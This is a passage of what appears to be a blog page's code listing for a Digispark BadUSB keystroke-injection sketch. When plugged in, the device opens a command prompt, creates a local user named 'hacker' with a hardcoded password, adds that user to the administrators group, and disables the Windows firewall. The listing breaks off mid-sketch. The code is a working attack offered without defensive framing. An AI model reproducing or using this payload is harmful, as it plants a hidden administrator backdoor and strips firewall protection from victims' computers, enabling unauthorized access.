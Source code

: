 <figure class="highlight c"><table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">//www.liuwx.cn QQ211124332</span></span><br><span class="line"></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">"DigiKeyboard.h"</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">define</span> KEY_ESC     41</span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">define</span> KEY_BACKSPACE 42</span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">define</span> KEY_TAB     43</span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">define</span> KEY_PRT_SCR 70</span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">define</span> KEY_DELETE  76</span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">define</span> KEY_CAPS_LOCK  0x39</span></span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">void</span> <span class="title">setup</span><span class="params">()</span> </span>{</span><br><span class="line"></span><br><span class="line">DigiKeyboard.<span class="built_in">delay</span>(<span class="number">2000</span>);</span><br><span class="line">DigiKeyboard.sendKeyStroke(<span class="number">0</span>);</span><br><span class="line">DigiKeyboard.<span class="built_in">delay</span>(<span class="number">2000</span>);</span><br><span class="line">DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);</span><br><span class="line">DigiKeyboard.sendKeyStroke(KEY_CAPS_LOCK);</span><br><span class="line">DigiKeyboard.<span class="built_in">delay</span>(<span class="number">500</span>);</span><br><span class="line">DigiKeyboard.<span class="built_in">print</span>(F(<span class="string">"cmd"</span>));</span><br><span class="line">DigiKeyboard.<span class="built_in">delay</span>(<span class="number">500</span>);</span><br><span class="line">DigiKeyboard.sendKeyStroke(KEY_ENTER);</span><br><span class="line">DigiKeyboard.sendKeyStroke(KEY_ENTER);</span><br><span class="line">DigiKeyboard.<span class="built_in">delay</span>(<span class="number">1000</span>);</span><br><span class="line">DigiKeyboard.<span class="built_in">print</span>(F(<span class="string">"color c"</span>));</span><br><span class="line">DigiKeyboard.<span class="built_in">delay</span>(<span class="number">500</span>);</span><br><span class="line">DigiKeyboard.sendKeyStroke(KEY_ENTER);</span><br><span class="line">DigiKeyboard.<span class="built_in">delay</span>(<span class="number">200</span>);</span><br><span class="line">DigiKeyboard.<span class="built_in">print</span>(F(<span class="string">"net user hacker Qliuwx123@ /add"</span>));</span><br><span class="line">DigiKeyboard.<span class="built_in">delay</span>(<span class="number">1000</span>);</span><br><span class="line">DigiKeyboard.sendKeyStroke(KEY_ENTER);</span><br><span class="line">DigiKeyboard.sendKeyStroke(KEY_ENTER);</span><br><span class="line">DigiKeyboard.<span class="built_in">delay</span>(<span class="number">300</span>);</span><br><span class="line">DigiKeyboard.<span class="built_in">print</span>(F(<span class="string">"net localgroup administrators hacker /add"</span>));</span><br><span class="line">DigiKeyboard.<span class="built_in">delay</span>(<span class="number">1000</span>);</span><br><span class="line">DigiKeyboard.sendKeyStroke(KEY_ENTER);</span><br><span class="line">DigiKeyboard.sendKeyStroke(KEY_ENTER);</span><br><span class="line">DigiKeyboard.<span class="built_in">print</span>(F(<span class="string">"netsh firewall set opmode mode=disable"</span>));